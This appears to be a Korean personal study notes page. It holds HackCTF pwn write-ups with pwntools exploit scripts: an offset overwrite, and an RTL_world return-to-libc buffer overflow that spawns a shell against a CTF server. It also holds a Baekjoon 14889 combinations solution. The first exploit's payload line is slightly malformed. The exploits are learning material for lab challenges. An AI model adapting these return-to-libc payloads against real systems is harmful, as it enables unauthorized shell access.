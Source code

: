 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

## RTL_world 풀이

checksec 입력시

CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial


이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

##코드

이하 생략 ( ) 에서 rtl 풀이 확인하기

개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)
p.sendline('5')
p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)
bin_addr = p32(0x8048eb1)

payload = "A"*144
payload += system_addr
payload += "A"*4
payload += bin_addr

p.sendline(payload)
p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 가 나온다.
